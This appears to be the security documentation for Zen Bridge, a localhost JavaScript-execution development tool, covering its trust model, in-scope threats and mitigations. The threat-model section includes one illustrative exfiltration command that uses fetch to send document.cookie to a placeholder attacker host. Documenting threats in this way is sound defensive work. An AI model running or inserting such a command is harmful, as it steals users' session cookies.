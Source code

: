 # Security

Security considerations, threat model, and best practices for Zen Bridge.

## Overview

Zen Bridge is a **local development tool** with a pragmatic security model designed for trusted development environments.

### Core Principles

1. **Localhost-only** - Server binds to `127.0.0.1` exclusively
2. **No remote access** - Not designed or hardened for internet exposure
3. **User trust model** - Users must trust JavaScript code they execute
4. **Browser security** - Relies on browser sandboxing and same-origin policy

## Threat Model

### In Scope

These threats are relevant and mitigated:

#### 1. Malicious JavaScript Execution

**Threat**: User executes untrusted JavaScript that steals data or performs unwanted actions.

**Impact**: High - Can steal cookies, make requests, modify DOM

**Mitigation**:

- ✅ Explicit user action required (no automatic execution)
- ✅ Scripts are visible before execution
- ✅ User can review code in terminal or files
- ✅ Browser sandbox provides isolation

**Example attack**:

```bash
# Attacker tricks user into running malicious script
zen eval "fetch('https://attacker.com/steal?cookies=' + document.cookie)"
```

**Defense**: User education - only run trusted scripts

#### 2. Local Privilege Escalation

**Threat**: Malicious script escalates privileges on local machine.

**Impact**: Medium - Limited by browser sandbox

**Mitigation**:

- ✅ Browser sandbox isolates script execution
- ✅ Scripts cannot access filesystem directly
- ✅ Python server runs with user privileges (not elevated)
- ✅ No shell command execution from browser
